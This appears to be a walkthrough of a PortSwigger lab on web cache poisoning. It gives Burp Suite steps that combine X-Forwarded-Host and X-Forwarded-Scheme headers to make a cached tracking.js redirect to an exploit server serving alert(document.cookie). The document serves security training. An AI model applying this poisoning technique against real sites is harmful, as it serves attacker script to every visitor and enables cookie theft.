 ### Web cache poisoning with multiple headers
```bash

# This lab contains a [web cache poisoning](https://portswigger.net/web-security/web-cache-poisoning) vulnerability that is only exploitable when you use multiple headers to craft a malicious request. A user visits the home page roughly once a minute. To solve this lab, poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser.

Refresh the page
Go to: HTTP history
Find:

GET / HTTP/1.1

Note the two script source files in the body of the response:

<script type="text/javascript" src="/resources/js/tracking.js"></script>
<script src="/resources/labheader/js/labHeader.js"></script>

To to Target -> Site map - current_website.com -> resources -> tracking.js -> Send to repeater
Right-click -> Extensions -> Param Miner -> Guess params -> Guess headers -> Ok
Go to:

GET /resources/js/tracking.js HTTP/1.1

Change to:

GET /resources/js/tracking.js?cb=1234 HTTP/1.1

Add:

X-Forwarded-Host: check.com

Nothing

Add: 

X-Forwarded-Scheme: nothttps

Response:

Location: https://check.com/resources/js/tracking.js?cb=1234

Go to: "Go to exploit server"
File:

/resources/js/tracking.js

Body:

alert(document.cookie)

Store

Go to: 

GET /resources/js/tracking.js?cb=1234 HTTP/1.1

Change to:

GET /resources/js/tracking.js HTTP/1.1

Send
```